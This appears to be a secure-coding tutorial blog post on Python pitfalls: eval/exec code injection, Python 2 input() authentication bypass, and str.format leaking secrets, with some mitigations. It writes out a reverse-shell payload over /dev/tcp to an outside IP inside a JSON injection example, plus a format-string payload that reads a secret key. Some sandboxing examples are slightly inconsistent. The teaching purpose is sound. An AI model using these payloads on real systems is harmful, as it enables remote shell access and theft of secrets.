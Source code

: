 ### Introduction 
It is possible to create a secure program using a language that is full of vulnerabilities, and also it is possible to create a vulnerable program using a language designed to be secure.

Python has become immensely useful in Cyber Security as it supports and performs a multitude of Cyber Security functions such as malware analysis, scanning, and penetration testing functions. However, it might be very easy to make a mistake in any Python code and make the program vulnerable.

In this tutorial, I will help you avoid those mistakes.

![](https://media.giphy.com/media/3oKIPcqmx1mpCOJJp6/giphy.gif)

### Dangerous functions
Some functions can be dangerous by performing a sort of code injection and an authentication bypass. Let's be in the hacker's shoes, think like him, and learn how to protect our code.

#### Eval()
Python’s `eval()` gives you the ability to pass a string to execute it as a code. For example, `eval("2 ** 8")` will return `256`.
Let's make a simple python app:
```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(2, 4)
print(result)
```

This is a very simple calculator, which gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:
```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```

If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. But as we are thinking as a hacker, then let's try to provide something else:
```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```

This malicious code will force our calculator to call `os.system` then spawn a reverse shell to the IP "10.0.2.15" on PORT "8080".

#### Exec()
This function is just like `Eval()` which executes a string or a code object. You have just to replace the second line of our last code with:
```python
return exec("%s + %s" % (x, y))
```

And you can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:
```python
exec('print(dir())')
```

The output is:
```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```

A lot of those variables and methods may not be necessary for your code. Therefore, you can restrict it for users bypassing optional `locals` and `globals` parameters to the method.
For example:
```python
from math import *
exec('print(dir())')
```

Then the output will be:
```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i10', '_i11', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_i9', '_ih', '_ii', '_iii', '_oh', 'acos', 'acosh', 'addition', 'asin', 'asinh', 'atan', 'atan2', 'atanh', 'ceil', 'copysign', 'cos', 'cosh', 'degrees', 'e', 'erf', 'erfc', 'exit', 'exp', 'expm1', 'fabs', 'factorial', 'floor', 'fmod', 'frexp', 'fsum', 'gamma', 'gcd', 'get_ipython', 'hypot', 'inf', 'isclose', 'isfinite', 'isinf', 'isnan', 'ldexp', 'lgamma', 'log', 'log10', 'log1p', 'log2', 'math', 'modf', 'nan', 'pi', 'pow', 'quit', 'radians', 'remainder', 'result', 'sin', 'sinh', 'sqrt', 'tan', 'tanh', 'tau', 'trunc']
```

If we pass an empty dictionary as globals, then only the __builtins__ will be available to the object. That means if you try to access any of the functions which are available by the math module, then it will raise an exception:
```python
from math import *
exec('print(dir())', {})
```

The output is:
```python
['__builtins__']
```

If you want to provide a specific method along with the __builtins__ then you need to do the following:
```python
from math import *
exec('print(dir())', {'squareroot': sqrt})

exec('print(squareroot(16))', {'squareRoot': sqrt})
```

This will give the user the ability to execute the `sqrt` method by using `squareroot()`. However, if he tries to use `sqrt()` then it will raise an exception.

The output here is:
```python
['__builtins__', 'squareRoot']
4.0
```

#### Input()
You can find this vulnerability only in [Python 2](https://www.python.org/downloads/release/python-272/) and you can't find it in [Python 3](https://www.python.org/downloads/).

This function in Python 2 takes the value type, as it is without changing its type. 
```python
secret = 5
number = input("Expect the secret number")
if number==secret:
    print("YES")
else:
    print("NO")
```

Now we have a secret number, and we want the user to expect it. If we pass `5` then the result will be `YES` and otherwise it will be `NO`, but if we pass `secret` then the result will be `YES` because the Python conditional now is:
```python
if secret==secret: // This will be true
```

And just like that, you can pass any password leading to authentication bypass. Also, there are a lot of other ways to exploit this function.

To fix this issue, you just need to use `raw_input()` instead of `input()` while you are using Python 2 because it is converting any input to a string. If you are using Python 3 then don't worry about it while it is doing just the same as `raw_input()`.

### String formatting exploiting
This can be a very dangerous method because it leads the hackers to authentication bypass and to get access to sensitive information. So how does this really work?

Let's build a simple app, assume that *CONFIG* contain sensitive information like an *API key*:
```python
CONFIG = {
    "KEY" : "SECRET_KEY"
}
class info:
    def __init__(self, first, last):
        self.first = first
        self.last = last

def getName(some_str, peopleinfo_obj):
    return some_str.format(peopleinfo_obj = peopleinfo_obj)

people = info('Ahmad', 'Mardeni')

stri = input()
getName(stri, peopleinfo_obj = people)
```

Now if the user passes the following as input:
```python
Name_is_{peopleinfo_obj.first}_{peopleinfo_obj.last}
```

Then the output will be:
```python
'Name_is_Ahmad_Mardeni'
```

But if he passes the following as input:
```python
{peopleinfo_obj.__init__.__globals__[CONFIG][KEY]}
```

Then our sensitive information will be compromised and the output will be:
```python
'SECRET_KEY'
```

That happened because the string formatting function has the ability to access attributes objects. And the question now, is it still good to use `str.format()`? Yes, but you have to be aware that it becomes vulnerable when it is used over user-controlled strings.

### Conclusion 
We learned about the dangerous functions `eval()`, `exec()` ,and `input()`, how hackers can use them to hack your Python code, and finally, how to protect yourself against them. But anyway, you have to pay an attention to vulnerabilities besides the language-specific ones, like [XSS](https://owasp.org/www-community/attacks/xss/), [SQL injection](https://www.w3schools.com/sql/sql_injection.asp), etc...

Till next time, happy coding Pythonistas!

![](https://media.giphy.com/media/LmNwrBhejkK9EFP504/giphy.gif)

### Further reading
1. [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)
